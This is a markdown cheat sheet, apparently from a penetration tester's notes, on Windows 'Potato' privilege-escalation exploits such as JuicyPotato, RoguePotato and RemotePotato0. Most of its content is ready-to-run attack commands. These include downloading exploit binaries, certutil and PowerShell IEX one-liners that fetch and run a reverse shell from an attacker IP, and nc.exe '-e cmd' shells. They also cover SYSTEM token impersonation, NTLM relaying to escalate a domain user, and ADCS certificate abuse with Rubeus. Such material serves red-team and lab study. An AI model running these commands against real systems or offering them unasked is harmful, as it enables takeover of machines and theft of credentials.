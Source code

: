 # Potatoes

- [https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)
- [https://hideandsec.sh/books/windows-sNL/page/in-the-potato-family-i-want-them-all](https://hideandsec.sh/books/windows-sNL/page/in-the-potato-family-i-want-them-all)




## RottenPotato

- [https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
- [https://github.com/foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato)

```
$ curl -L https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe > r.exe
meterpreter > upload r.exe
meterpreter > load incognito
meterpreter > execute -cH -f r.exe
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
```




## LonelyPotato

- [https://decoder.cloud/2017/12/23/the-lonely-potato/](https://decoder.cloud/2017/12/23/the-lonely-potato/)
- [https://github.com/decoder-it/lonelypotato](https://github.com/decoder-it/lonelypotato)




## JuicyPotato

- [https://ohpe.it/juicy-potato/](https://ohpe.it/juicy-potato/)
- [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)
- [https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)
- [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)

```
$ curl -L https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe > j.exe
...Using pwsh reverse shell...
$ curl -L https://github.com/samratashok/nishang/raw/master/Shells/Invoke-PowerShellTcpOneLine.ps1 > rev.ps1
Cmd > certutil -urlcache -split -f http://10.10.13.37/j.exe C:\Windows\System32\spool\drivers\color\j.exe
Cmd > echo cmd /c powershell -exec bypass -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')" > rev.bat
Cmd > .\j.exe -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820} -l 1337 -p C:\Windows\System32\spool\drivers\color\rev.bat
...Using nc.exe...
Cmd > .\j.exe -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820} -l 1337 -p C:\Windows\System32\spool\drivers\color\nc.exe "10.10.13.37 1337 -e cmd"
```




## RoguePotato

- [https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/)
- [https://github.com/antonioCoco/RoguePotato/releases](https://github.com/antonioCoco/RoguePotato/releases)

Redirect traffic that comes to 135 port on Attacker (`10.10.13.37`) with `socat` back to the Victim (`192.168.1.11`) on port 9999 (RogueOxidResolver is running locally on port 9999 on Victim):

```
$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:192.168.1.11:9999
```

Trigger the potato to run a binary with high privileges (don't forget to start a listener if sending a reverse shell):

```
Cmd > .\RoguePotato.exe -r 10.10.13.37 -e "C:\windows\Temp\nc.exe 10.10.13.37 443 -e cmd" -l 9999
```




## RemotePotato0

- [https://www.sentinelone.com/labs/relaying-potatoes-another-unexpected-privilege-escalation-vulnerability-in-windows-rpc-protocol/](https://www.sentinelone.com/labs/relaying-potatoes-another-unexpected-privilege-escalation-vulnerability-in-windows-rpc-protocol/)
- [https://github.com/antonioCoco/RemotePotato0/releases](https://github.com/antonioCoco/RemotePotato0/releases)

Get session ID of the user to pwn:

```
Cmd > query user
Cmd > quser
```

Hashes collector (modes 2, 3):

```
$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:192.168.1.11:9998
Cmd > .\RemotePotato0.exe -m 2 -x 10.10.13.37 -p 9998 -s 5
```

Cross-protocol relay (modes 0, 1):

```
$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:192.168.1.11:9998
$ ntlmrelayx.py -t ldap://192.168.1.11 --escalate-user snovvcrash --no-smb-server --no-wcf-server --no-raw-server
Cmd > .\RemotePotato0.exe -m 0 -r 10.10.13.37 -x 10.10.13.37 -p 9998 -s 5
```

[Combining](https://twitter.com/0xcsandker/status/1430111652008112131) with ESC8:

```
$ ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp --adcs --template User --no-smb-server --no-wcf-server --no-raw-server
Cmd > .\RemotePotato0.exe -m 0 -r 10.10.13.37 -x 10.10.13.37 -p 9998 -s 5 -c "{f8842f8e-dafe-4b37-9d38-4e0714a61149}"
Cmd > .\Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /dc:DC1.megacorp.local /certificate:<BASE64_PFX_CERT> /ptt
```




## GenericPotato

- [https://micahvandeusen.com/the-power-of-seimpersonation/](https://micahvandeusen.com/the-power-of-seimpersonation/)
- [https://github.com/micahvandeusen/GenericPotato](https://github.com/micahvandeusen/GenericPotato)




## EfsPotato

- [https://github.com/zcgonvh/EfsPotato](https://github.com/zcgonvh/EfsPotato)




## Tools



### SweetPotato

- [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)

```
Cmd > .\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <BASE64_CMD>"
```



### MultiPotato

- [https://github.com/S3cur3Th1sSh1t/MultiPotato](https://github.com/S3cur3Th1sSh1t/MultiPotato)
